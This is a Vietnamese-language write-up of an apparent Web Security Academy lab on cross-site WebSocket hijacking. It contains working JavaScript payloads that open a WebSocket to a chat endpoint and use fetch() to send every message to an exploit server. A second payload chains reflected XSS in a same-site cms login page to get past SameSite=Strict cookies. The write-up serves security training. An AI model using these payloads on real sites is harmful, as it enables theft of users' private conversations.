 #### Confirm the CSWSH vulnerability
- Đến **Exploite Server**, tạo payload thực hiện kiểm thử khai thác
```html
    <script>
        var ws = new WebSocket('wss://0aa3004c042e0976802a3f020009003e.web-security-academy.net/chat');
        ws.onopen = function() {
            ws.send("READY");
        };
        ws.onmessage = function(event) {
            fetch("https://exploit-0a3c0031049f090880073e4c0119005a.exploit-server.net/exploit" + event.data);
        };
    </script>
```
- Deliver to victim
- Đến **access log**, ta nhận được phần `event.data`
```
%7B%22user%22:%22CONNECTED%22,%22content%22:%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22%7D HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```
- Đến **Burp Decoder**, thực hiện **smart decode**
```
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"} HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```
- Mặc dù xác nhận đã có lỗ hổng **CSWSH**, nhưng nội dung cuộc trò chuyện lấy được hoàn toàn mới của new session
- Nguyên nhân
    - **SameSite** nhận được là `SameSite=Strict`
    - Script được khai thác từ trang ngoài domain

=> Trình duyệt không gửi cookie từ trang ngoài domain với thuộc tính `SameSite=Strict`, đây là cơ chế bảo vệ người dùng của trình duyệt

- Ý tưởng: 
    - Khai thác dựa trên lỗi XSS của chính trang
    - Khác thác dự trên lỗi XSS của trang khác same-site

#### Exploit
- Quan sát các response cũ trong **Proxy > HTTP history**, ta thấy được **Access-Control-Allow-Origin** header với sibling domain `https://cms-0aa3004c042e0976802a3f020009003e.web-security-academy.net`
- Thử đăng nhập bằng username `<script>alert()</script>` và password tùy ý, ta thấy XSS xảy ra
- Change request method và ứng dụng vẫn chấp nhận nó
- Do là same-site nến cookie có thể gửi được từ `cms-...` đến trang chúng ta khai thác
- Từ trang này, ta tạo payload để khởi tạo **WebSocket** tới `https://0aa3004c042e0976802a3f020009003e.web-security-academy.net`
    - Khi khởi tạo, do cùng domain gốc nên trình duyệt sẽ gửi **Cookie** kèm theo
    - Do có **cookie** nên `event.data` trả về có lịch sử tương ứng với **cookie** đó

- Payload:
```html
    <script>
        document.location = "https://cms-0afd001a038e866c80d053ab00fd0074.web-security-academy.net/login?username=%3Cscript%3Evar%20ws%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0afd001a038e866c80d053ab00fd0074.web-security-academy.net%2Fchat%27%29%3Bws.onopen%20%3D%20function%28%29%20%7Bws.send%28%22READY%22%29%3B%7D%3Bws.onmessage%20%3D%20function%28event%29%20%7Bfetch%28%22https%3A%2F%2Fexploit-0a59006c039186ad80ca52df012c00a5.exploit-server.net%2Fexploit%22%20%2B%20event.data%29%3B%7D%3B%3C%2Fscript%3E&password=abc";
    </script>
```
